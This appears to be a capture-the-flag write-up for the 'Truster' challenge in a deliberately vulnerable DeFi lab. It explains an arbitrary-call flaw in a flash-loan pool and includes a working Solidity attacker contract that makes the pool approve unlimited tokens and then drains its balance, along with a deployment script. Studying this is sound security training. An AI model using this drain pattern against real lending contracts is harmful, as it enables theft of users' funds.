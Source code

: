 # Challenge #3 - Truster

## Description

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

## What we have

We have 1 contract here:

1. `TrusterLenderPool`: A flashloan issuer providing DVT tokens.

Looking at the contract, we find these issues:

## Issues in TrusterLenderPool

### 1. Anyone can initiate flashloan for `borrower`

### 2. Contract can execute arbitrary instructions

The flashloan function uses `target.functionCall(data)`. This is very dangerous as a malicious caller can use this to execute any instruction as if the flashloan contract was the caller. It can be used to transfer or approve any tokens for example _(oh wait!)_.

## Solution

We can only get the token if the flashloan contract wants so. But we can choose what it wants to do (issue #2). So, we can send a transfer instruction to it, and hooray, we get the tokens! But NO. The flashloan function will revert if the balance decreases. So, instead we just ask the flashloan contract to approve the tokens to us _(promise I won't do anything bad 🙃)_. And then we sneakily take out the funds 😈.

```ts
// solidity
pragma solidity ^0.8.0;

import "contracts/truster/TrusterLenderPool.sol";

contract TrusterAttacker {
    constructor(address _lender) {
        TrusterLenderPool lender = TrusterLenderPool(_lender);
        IERC20 dvt = lender.damnValuableToken();
        lender.flashLoan(
            0,
            address(this),
            address(dvt),
            // transaction data to approve uint.max tokens to this contract
            abi.encodeWithSelector(
                dvt.approve.selector,
                address(this),
                type(uint).max
            )
        );

        require(
            dvt.transferFrom(
                address(lender),
                msg.sender,
                dvt.balanceOf(address(lender))
            )
        );
    }
}
```

```ts
// test script
const AttackerFactory = await ethers.getContractFactory(
  "TrusterAttacker",
  attacker
);
await AttackerFactory.deploy(this.pool.address);
```

## Probable Fix

Ability to execute arbitrary instructions from arbitrary callers? BAADD!!!
